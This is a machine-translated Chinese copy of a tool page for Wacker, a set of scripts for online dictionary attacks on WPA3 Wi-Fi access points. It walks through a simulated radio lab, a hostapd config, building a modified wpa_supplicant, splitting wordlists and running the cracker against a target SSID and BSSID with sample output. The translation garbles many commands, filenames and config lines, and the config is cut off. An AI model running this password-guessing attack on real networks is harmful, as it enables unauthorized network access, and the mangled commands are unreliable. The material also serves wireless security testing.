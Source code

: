 # Wacker:一个 WPA3 字典破解程序

> 原文：<https://kalilinuxtutorials.com/wacker/>

[![Wacker : A WPA3 Dictionary Cracker](img/524a06941e90778c683a1e9389965912.png "Wacker : A WPA3 Dictionary Cracker")](https://1.bp.blogspot.com/-68NNODw4V_s/X3Mtx308QLI/AAAAAAAAHr8/9AOrfq8LzvgS2zT2bOCs0D8dQ-kaj4E5QCLcBGAsYHQ/s728/Wacker.png)

Wacker 是一组帮助对 WPA3 接入点进行在线字典攻击的脚本。Wacker 利用 wpa_supplicant 控制接口来控制请求者守护程序的操作，并获取状态信息和事件通知，最终帮助在暴力攻击期间加速连接尝试。

**找到要使用的 wpa 3 AP**

如果你已经有一个 WPA3 应用程序，那就太好了。作为替代，您可以使用 mac80211_hwsim(详情如下)或使用 RF Hackers Sanctuary 提供的虚拟机来设置本地环境(强烈推荐)。测试几乎是使用模拟的 mac80211 环境执行的。很少有人关注真正的美联社…现在…所以你的 YMWV。

**本地模拟电台**

要设置您自己的 802.11 无线电软件模拟器，只需配置并加载正确的 mac80211_hwsim 模块。

**# modprobe MAC 80211 _ HW sim radios = 4
# iwconfig**
WLAN 0 IEEE 802.11 ESSID:off/any
模式:受管接入点:非关联 Tx-Power=20 dBm
重试短限:7 RTS thr:off Fragment thr:off
电源管理:on

WLAN 1 IEEE 802.11 ESSID:off/any
模式:受管接入点:非 IEEE 802.11 ESSID:off/any
模式:管理接入点:非关联 Tx-Power=20 dBm
重试短限值:7 RTS thr:off 碎片 thr:off
电源管理:on

选择一个新接口作为您的 WPA3 接入点，并使用以下配置文件。

**# cat hostapd . conf**
interface = WLAN 0
ssid = WCTF _ 18
driver = nl 80211
HW _ mode = g
channel = 1
logger _ syslog =-1
logger _ syslog _ level = 3
wpa = 2
wpa _ pass phrase = aero mechanics
wpa _ key _ mgmt = SAE
rsn _ pairwise = CCMP
IEEE 800

并使用启动 hostapd

**# hostapd-K-DD hostapd . conf**

**拆分一个词表**

如果您打算将破解工作分散到一系列网卡上，提供的 split.sh 脚本将为您划分一个单词列表。

**#。/split . sh 10 cyber punk . words**
50916 cyber punk . words . AAA
50916 cyber punk . words . aab
50916 cyber punk . words . AAC
50916 cyber punk . words . aad
50916 cyber punk . words . aae
50916 cyber punk . words . AAF
50916 cyber punk . words . AAG
50916

**建设 WPA _ 申请人**

我们提供了自己的 wpa_supplicant，以保证设置了某些配置以及一些需要在源代码本身中发生的修改。要构建，只需执行以下操作。希望在未来这将成为一个不赞成的步骤。

# apt-get install-y pkg-config libnl-3-dev gcc libssl-dev libnl-genl-3-dev
# CD wpa _ supplicant-2.8/wpa _ supplicant/
# CP def config _ brute _ force。配置
# make-j4
# ls-al wpa _ supplicant
-rwxr-xr-x1 root root 13541416 年 5 月 31 日 16:30 wpa_supplicant

令人感兴趣的是一些新的事件消息，它们被添加到 wpa 恳求者控制界面，以帮助进一步区分 wacker 脚本挂钩的结果。

/**我们的蛮力验证成功(WPA 3)*/# define WPA _ EVENT _ BRUTE _ SUCCESS " CTRL-EVENT-BRUTE-SUCCESS "
/* *我们的蛮力验证失败(WPA 3)*/# define WPA _ EVENT _ BRUTE _ FAILURE " CTRL-EVENT-BRUTE-FAILURE "

**Python 需求**

在其他 python 3-ism 中，wacker.py 脚本使用了一些 f 字符串。为了更快地发布代码，这个需求被保留了下来。如果需要，这里有一些 Python3.7 的通用安装说明。我知道在未来这将成为一个不赞成的步骤。

# apt-get install build-essential tk-dev libncurses S5-dev libncursesw 5-dev libreadline 6-dev libgdbm-dev libsqlite 3-dev libssl-dev libbz 2-dev libexpat 1-dev liblzma-dev zlib 1g-dev libffi-dev-y
# wget https://www.python.org/ftp/python/3.7.0/Python-3.7.0.tar.xz
# tar xf Python-3 . 7 . 0 . tar . xz
# CD Python-3 . 7 . 0
#。/configure
# make-j4
# make alt install

**运行瓦克**

wacker.py 脚本旨在执行所有繁重的工作。

**#。/wacker . py–help**
用法:wacker . py[-h]–WORD list WORD list–INTERFACE 接口–BSSID BSSID
–SSID SSID–freq FREQ[–START START _ WORD][–debug]
一个 WPA3 字典破解程序。必须以 root 用户身份运行！
可选参数:
-h，–help 显示此帮助信息并退出
–wordlist WORD list 要使用的 WORD list
–INTERFACE INTERFACE
要使用的 INTERFACE
–目标的 BSSID BSSID BSSID
–SSID SSID wpa 3 AP 的 SSID
–AP 的 freq FREQ 频率
–START _ WORD 要在 WORD list 中开始使用的 WORD
–调试增加日志输出

如果运气好的话…只使用一个实例来运行攻击…

#./wacker . py–wordlist cyber punk . words–ssid WCTF _ 18–bssid 02:00:00:00:00:00–接口 WLAN 2–freq 2412
开始时间:2020 年 8 月 21 日 07:40:11
开始 wpa _ 恳求者…
5795 / 509151 字(1.14%) : 79.41 字/秒:0.020 小时过去时间:1.76 小时

如果您有备用网卡，运行 wacker 的多个实例是很容易的。别忘了把单词表也分开。

#./wacker . py–wordlist cyber punk . words . AAA–ssid WCTF _ 18–bssid 02:00:00:00:00:00–接口 WLAN 1–freq 2412
#。/wacker . py–wordlist cyber punk . words . aab–ssid WCTF _ 18–bssid 02:00:00:00:00:00–接口 WLAN 2–freq 2412
#。/wacker . py–wordlist cyber punk . words . AAC–ssid WCTF _ 18–bssid 02:00:00:00:00:00–接口 WLAN 3–freq 2412

**感兴趣的文件**

瓦克相当啰嗦。感兴趣的文件可以在 **/tmp/wpa_supplicant/** 下找到

*   WLAN 1:uds 的一端
*   WLAN 1 _ client:uds 的一端
*   wlan1.conf:需要初始 wpa_supplicant conf
*   wlan1.log:请求者输出(仅当使用–debug 选项时)
*   WLAN 1 . pid:wpa _ suppliant 实例的 PID 文件
*   wlan1_wacker.log : wacker 调试输出

**注意事项**

wacker 不处理由目标 WPA3 AP 设置的 ACL。也就是说，当前代码总是使用相同的 MAC 地址。如果目标 AP 将我们的 MAC 地址列入黑名单，那么脚本不会区分真正的认证失败和我们被拒绝的黑名单 MAC。这将意味着我们会认为真正的密码是失败的。解决…的一种方法。我们必须以降低速度为代价将 macchanger 添加到源中。

wacker 似乎经常暂停一切，因为 AP 会发出退避超时。这将导致指标显示看似暂停，然后又重新开始。这是预期的行为。

**常见问题**

*   当你的客户端驱动不支持正确的 AKM 时，你会看到这个。通常，在您尝试并运行 wacker 脚本后，这在 wpa_supplicant 输出中表现出来。请求者将实质上挂起，等待 AKM 问题的进一步指示，详情如下。在 WPA3 的情况下，所需的 AKM 是 00-0F-AC:8 (SAE)。

u631_3: WPA: AP 组 0x10 网络概要组 0x18 可用组 0x10 u631_3: WPA:使用 GTK CCMP
u631_3: WPA: AP 成对 0x10 网络配置文件成对 0x18 可用成对 0x10 u631_3: WPA:使用 PTK CCMP
u631 _ 3:WPA:AP key _ mgmt 0x 400 网络配置文件 key _ mgmt 0x 400；available key _ mgmt 0x 400
u631 _ 3:WPA:无法选择已验证的密钥管理类型
u631_3: WPA:无法设置 WPA 密钥管理和加密套件

**待办事项**

*   创建一个包装脚本来跨多个网卡启动 wacker。这将避免为每个网卡手动实例化 wacker。让包装器也拆分单词列表并合并统计数据。

[**Download**](https://github.com/blunderbuss-wctf/wacker)